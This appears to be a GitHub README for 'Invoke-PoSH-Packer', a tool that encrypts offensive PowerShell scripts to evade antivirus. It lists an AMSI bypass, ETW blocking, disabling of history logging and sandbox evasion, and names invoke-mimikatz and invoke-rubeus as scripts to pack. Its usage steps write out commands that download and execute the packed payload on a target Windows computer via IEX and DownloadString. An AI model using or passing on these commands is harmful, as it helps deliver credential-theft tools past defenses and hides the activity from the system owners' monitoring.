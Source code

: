 ### Invoke-PoSH-Packer.ps1
--------------------------------------
'Invoke-PoSH-Packer' allows to pack and encrypt offensive PowerShell scripts in order to bypass AV solutions such as Windows Defender.

#### FEATURES
  - AES encryption and GZip/Deflate compression (based on 'Xencrypt')
  - AMSI bypass
  - Blocking Event Tracing for Windows (ETW)
  - Disabling PowerShell history logging
  - Basic sandbox evasion techniques (optional)
    - stop/exit if the PowerShell session is being debugged (detection based on "Test-Path Variable:PSDebugContext")
    - wait for 60 seconds before execution
  
#### USAGE
  - Step 1. Generate a packed & encrypted version of a PowerShell script (e.g. invoke-mimikatz.ps1, invoke-rubeus.ps1) stored locally or on a remote web server
```
PS C:\> Import-Module ./Invoke-PoSH-Packer.ps1
PS C:\> Invoke-PoSH-Packer -FilePath C:\path\script-to-pack.ps1 -OutFile C:\path\Packed-script.ps1 
--- or ---
PS C:\> Invoke-PoSH-Packer -FilePath C:\path\script-to-pack.ps1 -OutFile C:\path\Packed-script.ps1 -sandbox
``` 
```
PS C:\> Import-Module ./Invoke-PoSH-Packer.ps1
PS C:\> Invoke-PoSH-Packer -FileUrl https://URL/script-to-pack.ps1 -OutFile C:\path\Packed-script.ps1  
--- or ---
PS C:\> Invoke-PoSH-Packer -FileUrl https://URL/script-to-pack.ps1 -OutFile C:\path\Packed-script.ps1 -sandbox
```
  - Step 2. Download & execute the packed & encrypted PowerShell script on a target Windows computer
```
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://URL/Packed-script.ps1'); Invoke-method-of-your-original-script
--- or ---
PS C:\> WGET -URI https://URL/Packed-script.ps1 -OutFile C:\temp\Packed-script.ps1
PS C:\> Import-Module C:\temp\Packed-script.ps1
PS C:\> Invoke-method-of-your-original-script
``` 

#### LICENSE
  - GNU General Public License v3.0
